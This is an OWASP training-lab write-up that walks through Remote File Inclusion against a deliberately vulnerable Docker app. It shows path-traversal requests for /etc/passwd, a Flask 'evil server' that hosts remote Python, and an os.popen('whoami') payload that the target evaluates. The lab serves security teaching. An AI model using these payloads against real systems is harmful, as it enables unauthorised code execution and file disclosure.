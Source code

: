 # KBID 173 - Remote File Inclusion

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ContraHack!](../../.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/RFI1.png)

![](../../.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/RFI3.png)

To exploit Remote File Inclusion vulnerability, we have two approaches documented in detail below:

1. Use pastebin.com to serve the file including system command and include the pastebin raw url:

For E.g.: You may copy the code below to pastebin.com ans save. Then include the raw URL which would look something like "[https://pastebin.com/raw/ZLeFHRNf](https://pastebin.com/raw/ZLeFHRNf)":

```
os.popen('whoami').read()
```

![](../../.gitbook/assets/RFI31.png)

1. Creating your own webserver: In this case you can use Python Flask to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](../../.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file.

```python
os.popen('whoami').read()
```

![](../../.gitbook/assets/RFI5.png)

{% hint style="success" %}
Success! As we observed, we can include our own files through RFI.
{% endhint %}

## Additional sources

[https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)
